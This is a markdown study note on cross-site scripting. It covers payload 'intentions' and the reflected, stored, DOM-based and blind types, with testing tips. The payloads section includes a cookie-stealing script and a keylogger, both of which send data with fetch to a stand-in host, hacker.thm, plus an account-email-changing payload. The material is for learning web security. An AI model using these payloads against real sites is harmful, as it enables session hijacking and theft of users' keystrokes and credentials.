 # Payloads
[Dedicated XSS Payloads Page](https://github.com/PranjalBasak/Documentation/blob/main/mindless_xss_payloads.md)
## What is a payload?

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

<details>
  <summary>Intentions</summary>
  
## Intentions
Here are some examples of XSS intentions.

### Proof Of Concept:

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:


```javascript
<script>alert('XSS');</script>
```

### Session Stealing:

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.


```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Key Logger:

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

### Business Logic:

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail(). Your payload could look like this:

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Now that the email address for the account has changed, the attacker may perform a reset password attack.

</details>

# Types of XSS Attacks

```mermaid
graph TD
  XSS --> Reflected_XSS
  XSS --> Stored_XSS
  XSS --> DOM_Based_XSS
  XSS --> Blind_XSS
```

## Reflected XSS
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

### Potential Impact:

The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.

### How to test for Reflected XSS:

You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

## Stored XSS
As the name infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

### How to test for Stored XSS

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

- Comments on a blog
- User profile information
- Website Listings

## DOM Based XSS
### What is the DOM?
DOM stands for _Document Object Model_ and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content.

![image](https://github.com/PranjalBasak/Documentation/assets/66166653/2b244ec8-87f4-4afb-88a0-17e8f55b2cc1)

### Example Scenario

The website's JavaScript gets the contents from the window.location.hash parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

### How to test for Dom Based XSS:

DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters.

## Blind XSS
Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

### Example Scenario:

A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.

### Potential Impact:

Using the correct payload, the attacker's JavaScript could make calls back to an attacker's website, revealing the staff portal URL, the staff member's cookies, and even the contents of the portal page that is being viewed. Now the attacker could potentially hijack the staff member's session and have access to the private portal.

### How to test for Blind XSS:

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

### Tool for Blind XSS
[XSSHunter-Express](https://github.com/PranjalBasak/xsshunter-express)
